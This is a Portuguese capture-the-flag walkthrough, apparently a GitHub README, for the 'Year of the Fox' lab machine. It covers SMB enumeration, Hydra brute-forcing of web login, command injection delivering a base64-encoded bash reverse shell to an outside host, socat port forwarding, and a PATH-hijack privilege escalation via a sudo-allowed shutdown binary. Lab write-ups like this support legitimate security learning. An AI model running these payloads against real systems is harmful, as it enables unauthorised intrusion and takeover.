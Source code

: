 # CTF_y3ar_0f_th3_f0x
walkthrough yearofthefox

*Nivel HARD

******************************************************************************************
Vou começar enumerando os serviços no host com o Nmap.

![fox0 2](https://github.com/user-attachments/assets/9497c669-b7f2-4bdd-8510-cd86bffa1d11)

******************************************************************************************
Usando o smbclient, existe um compartilhamento chamado yotf, porem precisamos da senha.

 us3r  ~  smbclient -L //10.10.18.229
Password for [WORKGROUP\us3r]:

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))


![fox0 3](https://github.com/user-attachments/assets/253ebfc0-6749-41c1-83a5-285e52290969)

******************************************************************************************
Vou usar o enum4linux para listar os usuários disponíveis. Encontramos 2 usuários válidos: fox e rascal.

![fox0 4](https://github.com/user-attachments/assets/f865ba47-1778-459e-b986-88271d0551ad)

******************************************************************************************
Se no serviço da web não revelar senhas, precisaremos usar brute force

![fox0 5](https://github.com/user-attachments/assets/454d2602-828d-4e07-a9e9-e710ece3911a)

sou imediatamente bloqueado, pois todo o caminho é protegido por senha usando uma autenticação básica.

******************************************************************************************
Vou tentar forçar a autenticação com hydra usando rascal como usuário

![fox0 6](https://github.com/user-attachments/assets/075d4faf-9659-4af9-b5e1-d13ebf1e3cc8)

[80][http-get] host: 10.10.18.229   login: rascal   password: miroku
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-19 22:52:19
 us3r  ~  ^C

e encontrei o password

******************************************************************************************
Agora que logou, podemos entrar no site. É um search engine que pesquisa arquivos de texto.

![fox0 7](https://github.com/user-attachments/assets/839afcd7-5ed8-4e12-b03a-ff3e47544be8)
![fox0 8](https://github.com/user-attachments/assets/7bc2412d-e441-48e7-a8e5-b082f765e04b)

******************************************************************************************
A interceptação com o BurpSuite mostra que a solicitação é enviada para um arquivo search.php e a entrada do usuário é passada em uma string tipo JSON.

![fox0 9](https://github.com/user-attachments/assets/f5705618-dddb-40ec-86af-d2751c633a57)
******************************************************************************************
Vou usar o repeater do BurpSuite para reenviar solicitações

![fox1 1](https://github.com/user-attachments/assets/4020fca6-3aec-47be-88fd-0e78801c5d07)

******************************************************************************************
tentar injetar um shell reverso em bash 

echo -n "bash -i >& /dev/tcp/10.6.90.2/4444 0>&1" | base64

![fox1 2](https://github.com/user-attachments/assets/cb664284-5903-4e80-b3c6-d318b4478660)

******************************************************************************************
a requisição com o shell reverso codificado em base64
![fox1 3](https://github.com/user-attachments/assets/250dd357-101b-466f-ac63-e40b1d9e6c26)

******************************************************************************************
Tenho o shell reverso com netcat e garatimos a primeira flag 
![fox1 4](https://github.com/user-attachments/assets/cc9bf4eb-1020-42d9-9d87-2b8319d43808)

******************************************************************************************
Busquei por configurações SSH [sshd_config] pra verificar se existe serviço escutando em localhost,
confirmado pelo arquivo de configuração sshd_config, que informa que só o usuário Fox pode se conectar

![fox1 7](https://github.com/user-attachments/assets/cd9b643d-f651-4fc9-88ae-5e1c8d0dabf7)

******************************************************************************************

Posso usar o socat para abrir outra porta (por exemplo, 2222) e redirecionar para a porta 22 no localhost. Como o socat não está disponível no alvo, vou baixá-lo da minha máquina:

![fox1 8](https://github.com/user-attachments/assets/b143aef4-556c-42cd-9e6a-bf900f024380)
------------------------------------------------------------------------------------------
![fox1 9](https://github.com/user-attachments/assets/c69c5c81-b5ad-4fe5-8558-b899319f00a5)

******************************************************************************************
consegui a conexão SSH na porta 2222. Hora de um novo ataque brute force
![fox2](https://github.com/user-attachments/assets/3a5869e3-2d29-4a79-bd4f-1e45da2993e9)

******************************************************************************************
Temos a senha e vou fazer a conexão via ssh -p 2222
![fox2 1](https://github.com/user-attachments/assets/c8eda088-4fb2-4530-ad34-8d1a10831b9a)

e temos a SEGUNDA FLAG
******************************************************************************************

verifiquei os priviçegios do fox com sudo -l e mostra que podemos executar o shutdown como root sem senha.
Ao realizar eng reversa no codigo mostra que o executável de desligamento provavelmente foi escrito pelo autor do desafio. ele depende da função de desligamento

void main() {
    system("poweroff");
    return;
}

Vamos explorar a vulnerabilidade encontrada fazendo uma cópia do bash que chamaremos em vez de desligar:
cp /bin/bash poweroff
sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown

![fox2 2](https://github.com/user-attachments/assets/7cb83a9f-f5ac-4492-abdd-781a18c5274e)

******************************************************************************************
Foi escalado pra user ROOT!!!
a flag não estava disponivel no diretorio principal, mas sim oculta dentro do home/rascal.
ai está a TERCEIRA FLAG!

![fox2 3](https://github.com/user-attachments/assets/61f06ef5-0f81-4a7d-b212-be6d05c4c01a)






